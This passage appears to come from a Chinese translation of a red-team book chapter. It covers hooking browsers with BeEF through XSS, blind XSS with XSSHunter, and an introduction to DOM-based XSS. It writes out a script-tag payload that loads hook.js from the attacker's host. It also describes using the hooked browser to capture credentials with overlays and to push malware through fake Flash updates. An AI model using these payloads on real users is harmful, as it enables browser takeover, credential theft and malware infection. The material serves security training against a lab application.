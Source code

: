 
查看位于 http://127.0.0.1:3000/hook.js 上的 hook.js 文件，你应该会看到类似于长混淆的 JavaScript 文件的内容。这是连接受害者返回命令和控制服务器的客户端 payload 。

一旦在目标应用程序上识别出 XSS，而不是原始的 alert(1) 样式的 payload，就可以修改 `<script src ="http://<YourIP>:3000/hook.js"></script>` payload 来利用此漏洞。一旦你的受害者陷入此 XSS 陷阱，将导致他们的浏览器连接回你这边并成为你的僵尸网络的一部分。

BeEF 支持哪些类型的后渗透攻击？一旦你的受害者受到你的控制，你就可以做任何 JavaScript 可以做的事情。你可以通过 HTLM5打开相机并拍摄受害者的照片，你可以在屏幕上显示覆盖图以捕获凭据，也可以将其重定向到恶意网站以执行恶意软件。

以下是 BeEF 从 XSS 攻击中引发大量问题的快速演示：

首先，确保你的 BeEF 服务器在攻击者计算机上运行。在我们的易受攻击的聊天支持系统的应用程序中，你可以访问 http://chat:3000/xss 并在练习2的字段中输入你的 payload：
* `<script src="http://127.0.0.1:3000/hook.js"></script>`

一旦你的受害者连接到你的僵尸网络，你就可以完全控制他们的浏览器。你可以根据设备，浏览器和目标机器启用的功能进行各种攻击。通过社会工程学演示 XSS 影响力的一个好方法是通过 Flash 更新提示将恶意软件推送到他们的计算机。

![](img/chapter_3/3-8.png)

一旦执行，将在受害者的计算机上显示弹出窗口，强制他们安装更新，其中包含我们准备的恶意软件。

![](img/chapter_3/3-9.png)

我建议花一些时间熟悉所有 BeEf 的后渗透模块，并了解 JavaScript 的强大功能。由于我们会控制浏览器，因此我们必须弄清楚如何在红队活动中使用它。一旦你通过 XSS 感染了受害者，你还想做些什么？我们将在后面的“从 XSS 到 shell”部分讨论这个问题。

### Blind XSS 漏洞
Blind XSS 漏洞很少被讨论，因为它是需要耐心的游戏。什么是 Blind XSS 漏洞？正如攻击的名称所表示的那样，攻击者/用户看不到存储的 XSS payload 的执行（无回显），只有管理员或后台员工才能看到。由于其攻击后端用户的能力，所以这种攻击可能危害很大，但尽管如此，它还是经常被遗忘。

例如，我们假设某个应用程序有一个“联系我们”页面，允许用户向管理员提供联系信息，以便以后联系。由于该数据的结果只能由管理员手动查看而不是用户请求查看，所以如果应用程序易受 XSS 攻击，攻击者不会立即看到他们的 “alert(1)” 攻击的回显。在这些情况下，我们可以使用 [XSSHunter](https://xsshunter.com) 来帮助我们验证 Blind XSS 漏洞。

XSSHunter 的工作原理是，当我们的 JavaScript payload 执行时，它将截取受害者屏幕（他们正在查看的当前页面）的屏幕截图，并将该数据发送回 XSSHunter 的站点。发生这种情况时，XSSHunter 将发送一个警报，告知我们的 payload 已执行并向我们提供所有详细信息。我们现在可以回去创建一个恶意 payload 并重新进行我们的攻击。

XSS Hunter：
* 禁用任何代理（即 Burp Suite）
* 在 https://xsshunter.com 创建帐户
* 登录 https://xsshunter.com/app
* 转到 Payload 模块以获得你的 Payload 
* 修改 payload 以适应你的攻击或使用它构建 Polyglot
* 检查 XSS hunter 以查看 payload 执行情况

![](img/chapter_3/3-10.png)

![](img/chapter_3/3-11.png)

### 基于 DOM 的 XSS
对反射 XSS 和存储 XSS 的理解相对简单。我们已经知道，如果服务器没有为用户/数据库提供足够的输入/输出验证，我们的恶意脚本代码就会通过源代码呈现给用户。然而，在基于 DOM 的 XSS 中，它略有不同，这导致了一些常见的误解。因此，让我们花些时间专注于基于 DOM 的 XSS。

当攻击者可以操纵 Web 应用程序的客户端脚本时，就可以使用基于文档对象模型（DOM）的 XSS。如果攻击者可以将恶意代码注入 DOM 并由客户端的浏览器读取，则可以在从 DOM 读回数据时执行 payload。
